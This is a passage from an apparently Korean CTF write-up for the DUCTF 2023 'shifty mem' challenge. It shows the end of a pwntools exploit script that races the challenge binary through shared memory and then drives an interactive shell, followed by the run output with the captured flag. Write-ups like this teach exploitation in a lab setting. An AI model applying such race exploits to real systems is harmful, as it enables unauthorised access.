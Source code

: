 ```python

  print(rcv(r, b'$ '))
  r.sendline(b'chmod +x /tmp/aa')

print(rcv(r, b'$ '))
r.sendline(b'/home/ctf/chal/shifty_mem ' + sys.argv[1].encode())

sleep(0.01)

rr.sendline(b'/tmp/aa ' + sys.argv[1].encode())

print(rcv(r, b'$ '))

while True:
    ind = input()
    r.sendline(ind.encode())
    print(rcv(r, b'\n', False))
```
```plain
$ python3 ex.py shm f
[+] Opening connection to pwn-shifty-mem-e2993357bc2bc0d7.2023.ductf.dev on port 443: Done
[+] Opening connection to pwn-shifty-mem-e2993357bc2bc0d7.2023.ductf.dev on port 443: Done
bash: cannot set terminal process group (191): Inappropriate ioctl for device
bash: no job control in this shell
ctf@ctf-pwn-shifty-mem-e2993357bc2bc0d7-545b5888f-krm49:/$ 
<d7-545b5888f-krm49:/$ /home/ctf/chal/shifty_mem shm


b'\n\n\n\n\n\n\n\n\n\n\n\n\n'

b'\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n'

b'\n'

b'\n\n\n\n\n\n\n\n\n\n\n\n\n'

b'\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n'

b'\n\n\n\n\n\n\n\n\n\n\n\n'

b'\n'

b'\n\n\n\n\n\n\n\n22\n22\n22\n22223333\n'

b'DUCTF{r4c1ng_sh4r3d_m3mory_t0_th3_f1nish_flag}\n
```
python에서도 shm_open을 구현할 수 있지만 C 파일로 만들어서 업로드하고 따로 실행하는 방식으로 짰습니다.

## binary mail (291 points / 26 solves)
